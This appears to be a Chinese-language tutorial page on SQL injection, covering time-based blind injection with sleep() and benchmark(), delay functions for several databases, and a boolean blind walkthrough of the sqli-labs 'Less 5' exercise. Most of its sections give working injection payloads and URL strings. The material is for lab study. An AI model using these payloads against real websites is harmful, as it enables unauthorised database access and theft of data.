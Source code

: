 ![](/assets/images/move/1549205633106-9eee82e3-f21c-4bb6-8f91-354fcbe0746d.png)

### 延时注入


- 利用sleep()函数进行注入：

```sql
# 当有错误时会有5s的时间延时
AND if(ascii(substr(database(),1,1)) = 115, 1, sleep(5)) --+
```

- 利用 benchmark()进行延时注入：

```sql
# 结果正确时候将运行encode('MSG', 'by 5 seconds')操作50000000次，会占用一段时间
UNION SELECT (if(substring(current, 1, 1) = CHAR(115), benchmark(50000000, encode('MSG', 'by 5 seconds')), null)),2,3 FROM (SELECT database() as current) as tb1--+
```
- 常见的延时注入方式

|数据库类型|延时注入方式|
|:---:|:-----:|
|MySQL|BENCHMARK(100000, MD5(1)) / SLEEP(5)|
|PostgreSQL|PG_SLEEP(5) / GENERATE_SERIES(1, 10000)|
|Mssql Server| WAITFOR DELAY '0:0:5'|

### Less 5 Double Injection

> eg: **Less 5 GET-Double Injection-Single Quotes-String**

`id=1'`回显`near ''1'' LIMIT 0,1'`，表明为`'`闭合。

- 查看数据库版本号

`?id=1' and left(version(), 1)=5--+`, 回显**You are in...........**，错误则回显空内容。

- 查看数据库长度

`?id=1' and length(database())=8--+`，数据库长度为**8**。

- 猜数据库名

```sql
# 这里可以使用二分法
?id=1' and left(database(), 1)='s'--+ --> s
?id=1' and left(database(), 2)>'sa'--+ --> You are in
?id=1' and left(database(), 2)='se'--+ --> se
# 依次类推
?id=1' and left(database(), 8) = 'security'--+ --> security 
```

